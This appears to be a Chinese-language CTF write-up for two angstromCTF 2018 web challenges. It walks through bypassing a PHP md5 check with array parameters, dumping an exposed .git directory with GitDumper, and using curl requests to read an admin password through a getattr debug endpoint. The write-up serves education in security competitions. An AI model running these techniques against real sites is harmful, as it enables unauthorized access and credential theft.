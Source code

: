 # angstromCTF 2018 - Notes

## md5

打開頁面
![image](./img/01kd2Z1.png)

有提供 source code

```php
<?php
  include 'secret.php';
  if($_GET["str1"] and $_GET["str2"]) {
    if ($_GET["str1"] !== $_GET["str2"] and
        hash("md5", $salt . $_GET["str1"]) === hash("md5", $salt . $_GET["str2"])) {
      echo $flag;
    } else {
      echo "Sorry, you're wrong.";
    }
    exit();
  }
?>
```

那我們隨便輸入 str1=1 和 str2=2 ，可以看到網址會是
```http://web.angstromctf.com:3003/?str1=1&str2=2```

改一下為
```http://web.angstromctf.com:3003/?str1[]=1&str2[]=2```

就可以看到 flag 了

## File Storer
> Description:
>
> My friend made a file storage website that he says is super secure. Can you prove him wrong and get the admin password?
> 
> Hint:
> Can't solve it? Git gud.

打開頁面

![image](./img/CdCPxQ5.png)

隨便註冊後登入可以看到一個上傳頁面，這裡隨便輸入一個網址

![image](./img/9ggl0fo.png)

加成功後，點開看網址 ```http://web2.angstromctf.com:8899/files/hWVNF```

然後題目有說 git ，可以在 /files/發現 git

使用 [GitDumper](https://github.com/internetwache/GitTools/tree/master/Dumper)

```$ bash gitDumper.sh http://web2.angstromctf.com:8899/files/.git/ ./```


在裡面可以看到一段 code
```
#beta feature for viewing info about other users - still testing
@app.route("/user/<username>", methods=['POST'])
def getInfo(username):
    val = getattr(users[username], request.form['field'], None)
    if val != None: return val
    else: return "error"
```

輸入 ```curl "http://web2.angstromctf.com:8899/user/admin" -d "field=username"```
可以看到 admin

輸入 ```curl "http://web2.angstromctf.com:8899/user/admin" -d "field=_user__password"```
可以看到 flag

```
備註:

python 會將 __field 換成 _class__field
```



